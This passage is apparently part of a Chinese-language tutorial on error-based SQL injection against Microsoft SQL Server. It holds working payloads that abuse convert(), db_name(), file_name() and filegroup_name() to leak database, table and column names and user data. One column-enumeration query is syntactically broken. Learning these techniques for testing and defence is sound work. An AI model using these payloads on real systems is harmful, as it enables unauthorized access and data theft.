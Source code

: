 对于 convert(int,@@version)，convert 函数⾸先会执⾏第⼆个参数指定的SQL查询，然后尝试将查询结果转换为int类型。但是，由于这个SQL查询的结果是varchar类型，⽆法进⾏指定的转换，所以，convert函数会抛出 ⼀个SQL server错误消息，指出“SQL查询结果”⽆法转换为“int”类型，这样就能得到的这个SQL查询的结果了。如下所示
**查数据库**
```sql
select * from users where id = '1' and 1 = convert(int,db_name())--+
```

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_30_Y1ZB3XTP.png)
**查表名**
```sql
select * from users where id = '1' and 1 = convert(int,(select top 1 name from test..sysobjects where xtype='u'))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_30_aFyzWCgl.png)
**查列名**
```sql
select * from users where id = '1' and 1 = convert(int,(select top 1 name from test..syscolumns where id = (select id test..sysobjects where name = 'users')))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_31_LaBbPqsr.png)
**查值**
```sql
select * from users where id = '1' and 1 = convert(int,(select top 1 username from users))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_31_X4cfCnAd.png)
### db_name()
此函数返回指定数据库的名称
```sql
DB_NAME ( [ database_id ] )
名称DB_NAME将返回的数据库的标识号 (ID) 。如果调用DB_NAME省略database_id，则DB_NAME返回当前数据库的名称。
返回nvarchar(128)
```
```sql
select * from users where id = '1' and 1 = db_name((select top 1 name from test..sysobjects where xtype = 'u' and name not in ('users')))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_31_UaVq7YEv.png)
### file_name()
此函数返回给定文件标识 (ID) 号的逻辑文件名。
```sql
file_name(id)
其文件名的文件标识号FILE_NAME。file_id具有int数据类型。返回nvarchar(128)
file_ID对应于 sys.master_files 目录视图或 sys.database_files 目录视图中的 file_id 列。
```
```sql
select * from users where id = '1' and 1 = file_name((select top 1 name from test..sysobjects where xtype = 'u' and name not in ('users')))--+
```
### filegroup_name()
```sql
select * from users where id = '1' and 1 = filegroup_name((select top 1 name from test..sysobjects where xtype = 'u' and name not in ('users')))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_31_ouad7kDw.png)
### col_name()
此函数根据表列的表标识号和列标识号值返回表列的名称。
```sql
COL_NAME ( table_id , column_id ) 
table_id 自变量具有一个 int 数据类型,column_id 自变量具有一个 int 数据类型,返回系统名称
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_32_Q0iflpcX.png)